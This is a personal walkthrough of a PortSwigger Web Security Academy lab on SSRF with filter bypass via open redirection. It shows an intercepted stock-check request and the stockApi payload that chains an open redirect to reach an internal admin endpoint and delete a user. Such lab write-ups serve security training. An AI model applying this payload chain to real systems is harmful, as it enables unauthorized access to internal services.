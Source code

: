 ```yaml
---
title: "SSRF: challange 5"
date: "2024-02-09"
thumbnail: "/assets/img/thumbnail/ssrf.png"
---
```


# SSRF with filter bypass via open redirection
---

Link: https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly.
- so let's go to products and click check stock as challange describtion said
- intercept this request

```
POST /product/stock HTTP/2
Host: 0aba00cf04fc37d787d2ecab009800c8.web-security-academy.net
Cookie: session=Jkj8BtT8GyJXGIIkD92AI4jVwg1i5kVt; session=xePg3AZmakzW3clhYyuezrf201WpqbH6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aba00cf04fc37d787d2ecab009800c8.web-security-academy.net/product?productId=5
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0aba00cf04fc37d787d2ecab009800c8.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D5%26storeId%3D1
```

- we see that in the stockAPI parameter, we can't make the server issue the request directly to a different host.
- but when we intercept `next product` request we find that there's a path parameter
- so we can make use of it in stockAPI parameter ny making it = `/product/nextProduct?path=http://192.168.0.12:8080/admin`
- It redirects us to admin interface, so let's delete carlos by making stockAPI=`/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
- congratzzzzzzzzzzzz